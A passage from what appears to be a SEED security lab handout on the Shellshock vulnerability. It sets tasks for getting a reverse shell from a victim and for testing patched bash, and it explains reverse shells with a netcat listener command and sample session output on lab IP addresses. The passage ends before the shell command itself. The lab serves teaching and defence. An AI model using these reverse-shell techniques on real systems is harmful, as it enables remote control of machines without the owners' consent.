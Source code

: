 ### 3.4 Task 4: Getting a Reverse Shell via Shellshock Attack

The Shellshock vulnerability allows attacks to run arbitrary commands on the target machine. In real attacks,
instead of hard-coding the command in the attack, attackers often choose to run a shell command, so they
can use this shell to run other commands, for as long as the shell program is alive. To achieve this goal,
attackers need to run a reverse shell.
Reverse shell is a shell process started on a machine, with its input and output being controlled by
somebody from a remote computer. Basically, the shell runs on the victim’s machine, but it takes input
from the attacker machine and also prints its output on the attacker’s machine. Reverse shell gives attackers
a convenient way to run commands on a compromised machine. Detailed explanation of how to create a
reverse shell can be found in the SEED book. We also summarize the explanation in Section 4. In this task,
you need to demonstrate how you can get a reverse shell from the victim using the Shellshock attack.

### 3.5 Task 5: Using the Patched Bash

Now, let us use a bash program that has already been patched. The program `/bin/bash` is a patched
version. Please replace the first line of the CGI programs with this program. Redo Task 3 and describe your
observations.

## 4 Guidelines: Creating Reverse Shell

The key idea of reverse shell is to redirect its standard input, output, and error devices to a network connec-
tion, so the shell gets its input from the connection, and prints out its output also to the connection. At the
other end of the connection is a program run by the attacker; the program simply displays whatever comes


from the shell at the other end, and sends whatever is typed by the attacker to the shell, over the network
connection.
A commonly used program by attackers is `netcat `, which, if running with the "`-l`" option, becomes
a TCP server that listens for a connection on the specified port. This server program basically prints out
whatever is sent by the client, and sends to the client whatever is typed by the user running the server. In the
following experiment, `netcat `(` nc` for short) is used to listen for a connection on port `9090` (let us focus
only on the first line).
```
Attacker(10.0.2.6):$ nc -nv -l 9090 Ÿ **Waiting for reverse shell**
Listening on 0.0.0.0 9090
Connection received on 10.0.2.5 39452
Server(10.0.2.5):$ Ÿ **Reverse shell from 10.0.2.5.**
Server(10.0.2.5):$ ifconfig
ifconfig
enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
        inet **10.0.2.5** netmask 255.255.255.0 broadcast 10.0.2.
...
```
The above `nc `command will block, waiting for a connection. We now directly run the following bash
program on the Server machine ( `10.0.2.5 `) to emulate what attackers would run after compromising the